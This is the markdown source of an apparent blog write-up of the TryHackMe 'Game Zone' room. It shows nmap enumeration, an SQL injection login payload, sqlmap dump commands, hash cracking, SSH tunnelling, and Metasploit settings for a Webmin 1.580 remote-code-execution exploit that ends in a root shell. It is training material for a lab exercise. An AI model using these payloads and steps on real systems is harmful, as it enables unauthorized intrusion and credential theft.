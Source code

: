 ```yaml
---
title: "TryHackMe - Game Zone"
author: Nasrallah
description: ""
date: 2022-08-09 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, sqli, sqlmap, crack, john, tunneling, rce]
img_path: /assets/img/tryhackme/gamezone
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Game Zone](ttps://tryhackme.com/room/gamezone) from [TryHackMe](https://tryhackme.com). The machine is running a website vulnerable to sql injection, we use `sqlmap` to get a hash and a username, we crack the hash for a password and use the credentials to login via ssh. Once we're in, we found a service listening on an odd port and can't be accessed from outside the target machine. For that, we use ssh tunneling to access the service and found out it's vulnerable to rce. We exploit the vulnerability and get root access. 

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.26.156                                                                                                                            
Host is up (0.097s latency).                                                                                                                                 
Not shown: 998 closed tcp ports (reset)                                                                                                                      
PORT   STATE SERVICE VERSION                                                                                                                                 
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)                                                                            
| ssh-hostkey:                                                                                                                                               
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)                                                                                               
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)                                                                                              
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)                                                                                            
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))                                                                                                          
| http-cookie-flags:                                                                                                                                         
|   /:                                                                                                                                                       
|     PHPSESSID:                                                                                                                                             
|_      httponly flag not set                                                                                                                                
|_http-title: Game Zone                                                                                                                                      
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                                                 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have two open port, 22 running ssh and 80 running Apache http server.

## Web

Let's navigate to the webserver.

![](1.png)

This page has a login form, we can try some default credentials, but trying sqlinjection with this payload `' or 1=1 -- -` let's us in immediately.

![](2.png)

There is a search section, but doesn't give us much.

Since we managed to login using sql injection, let's see if this search function is also vulnerable to that.

Let's use `sqlmap` and see if it can find the vulnerability.

```bash
sqlmap -u 'http://10.10.26.156/portal.php' --forms --batch --cookies "PHPSESSID=2d88lasp16948fp441r98hcn93"
```

![](7.png)

Sqlmap confirms there is a sqlinjection vulnerability and identified the back-end DBMS as `mysql`.

Now let's dump DBMS database table entries by adding the `--dump` option.

```bash
sqlmap -u 'http://10.10.26.156/portal.php' --forms --batch --cookies "PHPSESSID=2d88lasp16948fp441r98hcn93 --dump
```

![](8.png)

Great! We got a password hash for user `agent47`.

# **Foothold**

Using `hash-identifier` we found that it's `SHA256` hash. Let's use john and crack the hash.

![](9.png)

We can login to the target via ssh now that we have the password.

# **Privilege Escalation**

If we check our privileges as `agent47` we find that we can do anything.

Listing the listening port on the machine with the command `netstat -tlpn` we find the following.

![](10.png)

There a service listening on port 10000 and we can't access it from outside the machine.

We can solve that problem using [ssh tunneling](https://www.hackingarticles.in/comprehensive-guide-on-ssh-tunneling/)

Executing the following command enables us to access that service on our attacking machine.

```
ssh -L 8000:0.0.0.0:10000 [agent47@10.10.41.70](mailto:agent47@10.10.41.70) -F
```

>We execute the above command on our attacking machine.

Now if we navigate to `http://127.0.0.1:8000` we see the following.

![](3.png)

It's a login page for `Webmin`. Let's try login as agent47 and supply the password we cracked.

![](4.png)

We logged in successfully and found webmin running on version `1.580`. Let's search for exploit for this version.

```bash
$ searchsploit webmin 1.580
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)                                                      | unix/remote/21851.rb
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)                                                              | linux/webapps/47330.rb
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

This version of webmin is vulnerable to RCE. There is metasploit module for that so let's start metasploit.

The name of the exploit module is `unix/webapp/webmin_show_cgi_exec` and we need to set the following options before running it.

```
set password videogamer124
set username agent47
set rhosts 127.0.0.1
set rport 8000
set ssl false
set lhost tun0
```

Now enter `run` or `exploit` to run the exploit.

![](5.png)

Great! We go a shell as root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References

[https://www.hackingarticles.in/comprehensive-guide-on-ssh-tunneling/](https://www.hackingarticles.in/comprehensive-guide-on-ssh-tunneling/)